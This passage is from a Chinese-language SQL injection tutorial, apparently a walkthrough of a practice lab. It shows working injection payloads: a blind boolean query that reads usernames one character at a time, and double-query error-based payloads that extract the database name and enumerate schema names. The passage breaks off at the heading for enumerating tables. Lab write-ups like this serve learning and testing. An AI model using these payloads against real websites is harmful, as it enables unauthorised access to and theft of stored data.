 ![image-20211207102825988](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020055801.png)

获取`users`表的内容：根据回显进行猜测。

```
id=1' and ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1))=68%23
```

![image-20211207102936120](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020055895.png)



#### 2、双注入⭐

这里也可以通过双注入的方法进行爆破，就不需要猜测了。

双注入：当在一个聚合函数后（比如count函数），使用分组语句就会把查询的一部分以错误的形式显示出来。

利用函数：

```
rand()：生成随机数，返回0到1之间的一个值
floor()：取整函数
count()：聚合函数，用户返回符合条件的记录数量。
```

原理

> 当`floor()`, `count()`, `group by`遇到一起在`from`一个3行以上的表时，就会产生一个主键重复的报错，而此时把想显示的信息构造到主键里面，`mysql`就会通过报错把这个信息显示到页面上

双注入模板：

```
select count(*),concat((payload), floor(rand(0)*2)) as a from information_schema.tables group by a
```

##### 爆破数据库

得到库名security

```
?id=1' union select -1, count(*), concat((select database()), '---', floor(rand(0)*2)) as a from information_schema.tables group by a %23
```

![image-20211207102258042](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020055137.png)

⭐注意：以下语句也可以进行爆破数据库，而且可以通过修改`limit`的值爆破其他的库名：

```
?id=1' and (select 1 from (select count(*),concat((select concat(schema_name,';') from information_schema.schemata limit 0,1),floor(rand()*2)) as x from information_schema.tables group by x) as a)%23
```

![image-20211207120957228](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020055897.png)



##### 爆破数据表

